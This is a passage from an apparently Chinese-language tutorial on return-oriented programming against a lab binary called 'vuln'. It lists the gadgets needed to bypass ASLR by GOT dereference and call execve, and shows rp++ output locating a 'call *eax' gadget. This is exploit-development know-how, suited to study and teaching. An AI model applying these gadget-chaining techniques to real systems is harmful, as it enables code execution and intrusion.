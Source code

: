 -Gadget 2: 正如在GOT覆盖那样，我们已经在可执行文件’vuln’中找到了’pop %ebx;ret’ gadget。  

-Gadget 3: 正如在GOT覆盖那样，可执行文件’vuln’中找不到’pop %eax’ret’ gadget。  

-Gadget 4: 通过调用寄存器来调用execve函数。因此我们需要一个’call *eax’ gadget  

``` bash
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x080485bb: calll *%-0x000000E0(%ebx,%esi,4) ; (1 found)
0x080484cf: calll *%eax ; (1 found)
0x0804860b: calll *%eax ; (1 found)
...
$
```
太棒了！我们找到了’call *eax’ gadget。 但仍然无法找到gadget 3 ‘pop %eax’ret’ ，GOT解引用依然变得不可能。  

栈布局： 下图描绘了利用gadget链接来做到GOT解引用  
![](../pictures/aslrgotgor2.png)    
